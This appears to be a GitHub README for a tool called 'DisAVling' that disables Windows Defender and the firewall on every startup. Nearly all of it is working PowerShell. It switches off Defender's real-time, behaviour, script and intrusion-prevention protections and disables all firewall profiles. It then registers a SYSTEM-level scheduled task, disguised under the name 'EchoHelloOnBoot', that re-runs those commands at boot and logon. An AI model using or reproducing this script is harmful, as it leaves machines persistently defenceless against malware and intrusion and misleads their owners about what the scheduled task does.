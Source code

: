 # DisAVling
This is the repository that disables Windows Defender and its features on startup.

# AV disabler [disAVle.txt]
`Set-MpPreference -DisableRealtimeMonitoring $true;
Set-MpPreference -SubmitSamplesConsent 2;
Set-MpPreference -DisableArchiveScanning $true;
Set-MpPreference -DisableEmailScanning $true;
Set-MpPreference -DisableBehaviorMonitoring $true;
Set-MpPreference -DisableScriptScanning $true;
Set-MpPreference -DisableIntrusionPreventionSystem $true;
Set-MpPreference -DisableIOAVProtection $true;
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;`

# Task Scheduler
`$Action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument '-Command "GET-Content -Raw C:\Users\admin\Desktop\met\DisAVle.txt | IEX"'
$Trigger1 = New-ScheduledTaskTrigger -AtStartup
$Trigger2 = New-ScheduledTaskTrigger -AtLogOn
$Principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highest
$Task = New-ScheduledTask -Action $Action -Trigger $Trigger1, $Trigger2 -Principal $Principal -Settings (New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -StartWhenAvailable)
Register-ScheduledTask -TaskName "EchoHelloOnBoot" -InputObject $Task
`
